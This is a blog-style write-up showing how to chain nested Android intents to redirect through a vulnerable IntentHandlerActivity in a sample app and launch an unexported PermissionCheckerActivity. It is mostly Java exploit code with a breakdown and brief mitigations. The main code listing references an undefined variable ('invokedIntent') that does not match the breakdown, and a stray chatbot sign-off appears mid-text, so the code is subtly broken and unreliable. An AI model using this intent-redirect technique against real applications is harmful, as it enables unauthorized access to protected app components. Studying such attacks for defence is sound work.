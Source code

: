 ```yaml
---
layout: post
title: 'Intent Redirect: Unlocking Unexported Activity in Android Applications'
date: 2025-03-14 20:36 +0200
categories: Mobile
tags: Android Mobile
---
```


When building secure Android applications, handling intents safely is paramount. Intents facilitate communication between components but can also expose vulnerabilities when improperly implemented. In this writeup, we’ll explore how to exploit a chain of intents to uncover hidden functionality in the `IntentHandlerActivity` and `PermissionCheckerActivity` of a sample app.

## Overview of the Vulnerable Activities
### IntentHandlerActivity
The `IntentHandlerActivity` code introduces an intent attack surface by processing nested intents:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*jIO7J-9KyzS54GlgDgb_qQ.png)

Key observations:
- **Nested Intents:** `IntentHandlerActivity` checks for an intent with the extra key "`android.intent.extra.INTENT`".
- **Conditions**: For the nested intent to be processed,
it must Have `return == 42` and also include another intent (`nextIntent`) with a reason `extra`.
- **Action**: If `reason == "next"`, `nextIntent` is launched.

### PermissionCheckerActivity
`PermissionCheckerActivity` responds to specific flags and permissions:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*721C45T034CBPm6v3eLGrQ.png)
This means `PermissionCheckerActivity` requires: The `FLAG_GRANT_READ_URI_PERMISSION` flag.

## The Attack Strategy
The goal is to exploit `IntentHandlerActivity` to invoke `PermissionCheckerActivity` indirectly. Since `IntentHandlerActivity` validates and launches `nextIntent`, we can craft a malicious chain of intents to meet the conditions of both activities.

## Crafting the Exploit
Below is the Java code for an activity (`MainActivity`) that constructs and launches the required intent chain:
```java
package com.example.intenttest;

import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.widget.Button;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        ((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(v -> {
            Intent invokerIntent = new Intent();
            invokerIntent.setComponent(new ComponentName(
                    "com.attacksurface",
                    "com.attacksurface.activities.IntentHandlerActivity"
            ));

            Intent targetIntent = new Intent();
            targetIntent.setComponent(new ComponentName(
                    "com.attacksurface",
                    "com.attacksurface.activities.PermissionCheckerActivity"
            ));

            targetIntent.putExtra("reason", "next");
            targetIntent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);

            Intent innerIntent = new Intent();
            innerIntent.putExtra("return", 42);
            innerIntent.putExtra("nextIntent", invokedIntent);

            invokerIntent.putExtra("android.intent.extra.INTENT", innerIntent);

            startActivity(invokerIntent);
        });
    }
}
```
## Exploit Breakdown
The following is a detailed breakdown of the exploit designed to target the `IntentHandlerActivity` and indirectly invoke the `PermissionCheckerActivity`:
### 1. Outer Intent (invokerIntent)
**Purpose:**
This is the outermost intent that targets the vulnerable `IntentHandlerActivity`.

**Key Properties:**

- **Target Component:** `com.attacksurface.activities.IntentHandlerActivity`
- **Payload**:
It contains an extra with the key `android.intent.extra.INTENT`, which carries a nested intent (**innerIntent**).
```java
Intent invokerIntent = new Intent();
invokerIntent.setComponent(new ComponentName(
        "com.attacksurface",
        "com.attacksurface.activities.IntentHandlerActivity"
));
```

### 2. Inner Intent (innerIntent)
**Purpose:**
This nested intent is validated by IntentHandlerActivity and holds the key to triggering the target activity.

**Key Properties:**

- **Validation Parameter:**
The return extra is set to 42, which satisfies a condition in IntentHandlerActivity.
- **Payload:**
It contains another nested intent (nextIntent) that will eventually be passed to PermissionCheckerActivity.
```java
Intent innerIntent = new Intent();
innerIntent.putExtra("return", 42);
innerIntent.putExtra("nextIntent", targetIntent);
```

### 3. Target Intent (targetIntent)
**Purpose:**
This intent is the core target, which will be passed and triggered in PermissionCheckerActivity via the exploit.

**Key Properties:**

- **Target Component:**
`com.attacksurface.activities.PermissionCheckerActivity`
- **Validation Parameters:**
`reason`: Set to "`next`", which satisfies a condition in `IntentHandlerActivity`.
`FLAG_GRANT_READ_URI_PERMISSION`: This flag is essential to pass the permission check in `PermissionCheckerActivity`.
```java
Intent targetIntent = new Intent();
targetIntent.setComponent(new ComponentName(
        "com.attacksurface",
        "com.attacksurface.activities.PermissionCheckerActivity"
));
targetIntent.putExtra("reason", "next");
targetIntent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
```

### 4. Linking Intents
**Process:**
The intents are chained together in a specific order:

- The `targetIntent` is embedded within `innerIntent` as the value for the key `nextIntent`.
- The `innerIntent` is embedded within `invokerIntent` as the value for the key `android.intent.extra.INTENT`.
**Outcome:**
When `invokerIntent` is launched, it triggers a chain of intent calls that bypasses restrictions, eventually leading to the launch of `PermissionCheckerActivity`.
```java
invokerIntent.putExtra("android.intent.extra.INTENT", innerIntent);
```

### 5. Triggering the Exploit
**Execution:**
The exploit is triggered when the button in the MainActivity UI is clicked, calling startActivity(invokerIntent) to start the chain of intents.
```java
((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(v -> {
    startActivity(invokerIntent);
});
```

## Exploit Flow Summary
- **MainActivity**: Constructs and launches `invokerIntent`.
- **IntentHandlerActivity**: Processes `invokerIntent` and validates `innerIntent`.
- **PermissionCheckerActivity**: Executes `targetIntent`, completing the flow and performing its functionality.

By chaining these intents together, the exploit bypasses security restrictions and successfully invokes `PermissionCheckerActivity`.

Let me know if you’d like further refinement or more detailed explanations!

## Mitigation Strategies
To prevent such vulnerabilities, developers should:

1. **Restrict Component Exposure:**
Mark sensitive activities as `android:exported="false"` unless explicitly needed.
2. **Validate Incoming Intents:**
Check the source of intents using `getCallingPackage()` or `PendingIntent`.
3. **Avoid Processing Nested Intents:**
Minimize or eliminate the use of nested intents unless absolutely necessary.
4. **Enforce Permissions:**
Require explicit permissions for sensitive activities.

## Conclusion
This writeup demonstrates how improper intent handling can expose vulnerabilities in Android applications. By crafting a malicious chain of intents, we successfully exploited the `IntentHandlerActivity` and `PermissionCheckerActivity`. This highlights the importance of secure coding practices to protect applications from intent-based attacks.

**THANKS FOR READING ❤️**


